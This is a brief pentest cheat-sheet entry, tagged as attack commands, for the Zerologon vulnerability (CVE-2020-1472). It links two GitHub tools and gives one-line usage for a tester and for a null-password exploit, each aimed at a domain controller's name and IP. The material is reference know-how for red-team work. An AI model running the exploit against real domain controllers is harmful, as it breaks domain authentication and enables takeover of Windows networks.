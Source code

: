 # zerologon_tester.py

% msrpc, zerlogon

#plateform/linux #target/remote #cat/ATTACK/CONNECT  


## desc
```
https://github.com/SecuraBV/CVE-2020-1472
```

## test
```bash
zerologon_tester.py <dc_name> <dc_ipn>
```

# zerologon-NullPass.py

% msrpc, zerlogon
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 

## desc
```bash
https://github.com/Sq00ky/Zero-Logon-Exploit
```

## run
```bash
zerologon-NullPass.py <dc_name> <dc_ipn>
```

